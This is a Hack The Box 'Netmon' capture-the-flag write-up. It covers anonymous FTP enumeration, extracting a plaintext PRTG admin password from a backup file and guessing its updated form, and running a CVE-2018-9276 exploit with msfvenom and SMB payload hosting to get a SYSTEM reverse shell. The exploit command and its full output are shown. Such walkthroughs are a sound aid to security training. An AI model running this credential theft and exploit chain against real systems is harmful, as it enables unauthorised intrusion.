




---
tags:
  - prtg
  - CVE-2018-9276
group: Windows
---


- Machine : https://app.hackthebox.com/machines/netmon
- Reference : https://0xdf.gitlab.io/2019/06/29/htb-netmon.html
- Solved : 2025.3.8. (Sat) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Discovered open ports: **FTP (21), HTTP (80), SMB (445), RPC (135, 139, 5985, 47001), multiple high ports (49664-49669)**.
    - **FTP Access**:
        - **Anonymous FTP login allowed**.
        - Retrieved contents of **`C:\Users\Public\Desktop\user.txt`**.
    - **PRTG Network Monitor**:
        - Web service running on port **80**.
        - Located configuration files in **`C:\ProgramData\Paessler\PRTG Network Monitor`** via FTP.
        
2. **Credential Discovery**
    - **Downloaded `PRTG Configuration.old.bak`** from the FTP share.
    - Extracted **`prtgadmin`'s password**: `PrTg@dmin2018`.
    - Guessed an updated password (`PrTg@dmin2019`) based on naming patterns and **successfully logged into PRTG's web interface**.
    
3. **Privilege Escalation to `SYSTEM`**
    - **Identified Exploit for PRTG (CVE-2018-9276)**:
        - Found a **Remote Code Execution (RCE) exploit** applicable to the target version (**18.1.37**).
    - **Exploited PRTG Notification System**:
        - Used a crafted notification template to **execute a reverse shell**.

### Key Techniques:

- **Enumeration**: FTP access to retrieve sensitive configuration files.
- **Credential Discovery**: Extracting passwords from **PRTG configuration backup**.
- **Privilege Escalation**: Exploiting **PRTG's vulnerable notification execution feature** to achieve **SYSTEM access**.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/netmon]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.152
Performing quick port scan on 10.10.10.152...
Found open ports: 21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669
Performing detailed scan on 10.10.10.152...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 06:09 MST
Nmap scan report for 10.10.10.152
Host is up (0.13s latency).

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-03-08T13:10:37
|_  start_date: 2025-03-08T13:06:01

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.30 seconds
```

### ftp(21)

It allows anonymous login, and has many directories and files.
So I mirrored the whole ftp share.

```shell
ftp> pwd
Remote directory: /Users/Public/Desktop

ftp> ls
229 Entering Extended Passive Mode (|||50497|)
150 Opening ASCII mode data connection.
02-02-19  11:18PM                 1195 PRTG Enterprise Console.lnk
02-02-19  11:18PM                 1160 PRTG Network Monitor.lnk
03-08-25  08:06AM                   34 user.txt
226 Transfer complete.

ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||50487|)
150 Opening ASCII mode data connection.
100% |************************************************|    34        0.25 KiB/s    00:00 ETA
226 Transfer complete.
```

I found `user.txt` from `C:\Users\Public\Desktop` directory.

Since we have almost full access to the target's file system (except Administrator, etc), I can use this to access other files as well.

### http(80)



It's "PRTG Network Monitor" web page.
Since we have an access to the file system, I searched where the PRTG's folder located.



It is `C:\ProgramData\Paessler\PRTG Network Monitor`.
Let's see what's in it.

```bash
ftp> ls
229 Entering Extended Passive Mode (|||50557|)
125 Data connection already open; Transfer starting.
03-08-25  08:06AM       <DIR>          Configuration Auto-Backups
03-08-25  08:06AM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)
02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
03-08-25  08:06AM       <DIR>          Logs (Web Server)
03-08-25  08:06AM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
03-08-25  08:07AM              1640076 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
226 Transfer complete.
```

It seems that `PRTG Configuration.old.bak` file is a backup file of the configuration.
Let's download it.

I searched to check if there's any credential saved, and found `prtgadmin`'s password.

```bash
┌──(kali㉿kali)-[~/htb/netmon]
└─$ cat PRTG\ Configuration.old.bak | grep -C 3 -i password
            <dbcredentials>
              0
            </dbcredentials>
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
            <dbtimeout>
              60
            </dbtimeout>
--
            <errorintervalsdown>
              1
            </errorintervalsdown>
<SNIP>
```

The user `prtgadmin`'s password backuped is `PrTg@dmin2018`.

I tried this credential to PRTG login page, but failed.



Given the password ends with the year 2018, I guessed that the recent password might be `PrTg@dmin2019` (The machine was released in 2019) and it worekd.




# Shell as `SYSTEM`

Given the version of the PRTG Network Monitor is 18.1.37, I googled to find exploits.
And I found one well-designed exploit [repo](https://github.com/A1vinSmith/CVE-2018-9276) targetting CVE-2018-9276.

This one applies to PRTG version under 18.2.39, so the target is applicable.

```bash
┌──(kali㉿kali)-[~/htb/netmon/CVE-2018-9276]
└─$ python exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.4 --lport 9000 --user prtgadmin --password 'PrTg@dmin2019'
/home/kali/htb/netmon/CVE-2018-9276/exploit.py:259: SyntaxWarning: invalid escape sequence '\{'
  print(event + "Hosting payload at [\\\\{}\{}]".format(lhost, shareName))
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.10.10.152:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2018]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2018] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.14.4 LPORT=9000 OUTPUT=/tmp/wehcggxy.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
/home/kali/htb/netmon/CVE-2018-9276/exploit.py:294: DeprecationWarning: setName() is deprecated, set the name attribute instead
  impacket.setName('Impacket')
/home/kali/htb/netmon/CVE-2018-9276/exploit.py:295: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  impacket.setDaemon(True)
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.14.4\CUPRLHUK]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2019] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.14.4:9000 for the reverse shell!]
listening on [any] 9000 ...
[*] Incoming connection (10.10.10.152,53684)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.152] 53693
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>[*] Disconnecting Share(1:IPC$)

C:\Windows\system32>whoami
whoami
nt authority\system
```

I got `SYSTEM`'s shell!